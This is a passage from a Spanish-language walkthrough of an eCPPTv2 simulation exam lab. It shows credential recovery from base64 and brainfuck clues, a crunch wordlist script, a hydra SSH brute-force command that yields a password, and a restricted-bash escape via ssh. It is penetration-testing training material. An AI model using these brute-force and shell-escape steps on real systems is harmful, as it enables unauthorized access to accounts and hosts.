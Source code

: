 ```bash
proxychains curl http://40.40.40.5:31337
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 110.png)

El mensaje en base64 muestra cómo se está redirigiendo una cadena de texto al archivo Cypher.matrix:

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 111.png)

Este archivo contiene un código en brainfuck y al ejecutarlo, muestra un mensaje en el cual se indica una credencial incompleta.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 112.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 113.png)

### Brute force con hydra y wordlist personalizada

El usuario es “guest” y la contraseña incompleta es “k1ll0r??”, por lo que se creará una wordlist con múltiples combinaciones con crunch.

```bash
#!/bin/bash

counter=0

for i in @@ ,, %% @, @% ,@ %@ ,% %,; do
  echo -ne "\r"

  crunch 8 8 -t k1ll0r$i &>/dev/null >> wordlist2.txt
  let counter+=1

  echo -n "[+] Creating wordlist... $counter/9"
done
echo -e "\n\nDone!"
```

Ahora se hará fuerza bruta al SSH con hydra

```bash
proxychains hydra -l guest -P wordlist.txt ssh://40.40.40.5 -f 2>/dev/null
```

La contraseña del usuario es: k1ll0r7n

### Restricted bash evasion

Al loguearse como el usuario guest por SSH, este entra en una restricted bash.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 114.png)

Para evadir esto, se puede abrir una bash, antes que se ejecute la rbash, incluyendo “bash” al final del comando del ssh.
